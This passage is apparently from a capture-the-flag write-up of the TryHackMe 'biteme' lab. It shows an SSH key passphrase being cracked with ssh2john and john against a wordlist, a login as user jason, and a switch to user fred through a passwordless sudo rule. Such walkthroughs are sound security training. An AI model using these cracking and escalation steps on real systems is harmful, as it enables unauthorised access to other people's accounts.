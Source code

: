 To solve this problem, I use **ssh2john** to generate the passphrase from the key into hash, and use **john** to crack the hash to plaintext”

```
┌──(kali㉿kali)-[~/TryHackMe/biteme]
└─$ ssh2john id_rsa > id_rsa_hash

┌──(kali㉿kali)-[~/TryHackMe/biteme]
└─$ john --wordlist=~/Wordlists/rockyou.txt id_rsa_hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]         (id_rsa)
1g 0:00:00:00 DONE (2023-10-15 22:55) 50.00g/s 251200p/s 251200c/s 251200C/s christina1..dumnezeu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now I get back and get access to the target machine as user **jason**:

```
┌──(kali㉿kali)-[~/TryHackMe/biteme]
└─$ ssh jason@biteme.thm -i id_rsa
Enter passphrase for key 'id_rsa':
Last login: Fri Mar  4 18:22:12 2022 from 10.0.2.2
jason@biteme:~$ id;pwd
uid=1000(jason) gid=1000(jason) groups=1000(jason),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
/home/jason
```

## Horizontal Privilege Escalation

```
jason@biteme:~$ sudo -l
Matching Defaults entries for jason on biteme:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jason may run the following commands on biteme:
    (ALL : ALL) ALL
    (fred) NOPASSWD: ALL
```

The output from the command `sudo -l` means:

- `(ALL : ALL) ALL`: user **jason** can execute every commands as **root** but password of user **jason** is required
- `(fred) NOPASSWD: ALL`: user **jason** can switch to user **fred** without password required

Because I do not have the **jason**’s password, I decide to become **fred** at first:

```
jason@biteme:~$ sudo -u fred /bin/bash -i
fred@biteme:~$
```

